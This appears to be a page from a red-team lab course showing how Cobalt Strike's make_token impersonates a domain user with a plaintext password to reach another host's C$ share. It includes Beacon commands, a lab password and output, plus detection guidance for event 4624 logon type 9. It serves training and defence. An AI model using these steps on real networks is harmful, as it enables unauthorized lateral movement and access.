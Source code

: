 The `make_token` command in Cobalt Strike uses the [LogonUserA](https://docs.microsoft.com/en-gb/windows/win32/api/winbase/nf-winbase-logonusera) API which takes the username, domain and plaintext password for a user, as well as a logon type. `make_token` passes the **LOGON32_LOGON_NEW_CREDENTIALS** type, which the MS docs describe as:
>This logon type allows the caller to clone its current token and specify new credentials for outbound connections. The new logon session has the same local identifier but uses different credentials for other network connections.


Let's see this in practice. The Beacon on WKSTN-1 is running as `DEV\bfarmer`, which is reflected by `getuid`.
```shell
beacon> getuid
[*] You are DEV\bfarmer
```

bfarmer is not a local admin on SRV-2.
```shell
beacon> ls \\srv-2\c$
[-] could not open \\srv-2\c$\*: 5
```
>  Remember to use `net helpmsg` to resolve these types of error codes:  
>```shell
>C:\>net helpmsg 5 
>Access is denied.
>```


However, we can find from our domain recon that jking is a local admin on SRV-2. If we have the plaintext password (provided here), we can use `make_token` with that information.
```shell
beacon> make_token DEV\jking Purpl3Drag0n
[+] Impersonated DEV\bfarmer
```

From the API documentation we know that this logon type "allows the caller to clone its current token". This is why the Beacon output says **Impersonated DEV\\bfarmer** - it's impersonating our own cloned token. And if we do a `getuid`, it will also still say we are **DEV\\bfarmer** because the logon type "has the same local identifier". The magic is in "uses different credentials for other network connections" - if we now try to list the **C$** share on SRV-2 we now have access.

```shell
beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     02/23/2021 17:08:43   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/17/2021 18:28:36   System Volume Information
          dir     02/17/2021 18:32:08   Users
          dir     02/17/2021 18:28:54   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     03/04/2021 10:12:52   pagefile.sys
```

To dispose of the impersonated token, use `rev2self`.

`make_token` does not require local admin privileges.

 The use of `make_token` generates event `4624: An account was successfully logged on`.  This event is very common in a Windows domain, but can be narrowed down by filtering on the `Logon Type`.  As mentioned above, it uses LOGON32_LOGON_NEW_CREDENTIALS which is type `9`.  Windows commands such as RunAs will also generate the same event.  The event itself records the user who ran the command, the user they're impersonating, and the process it was run from.
 ```shell
 event.code: 4624 and winlog.event_data.LogonType: 9
```

>Use `make_token` to impersonate another user and find the evidence in Kibana.


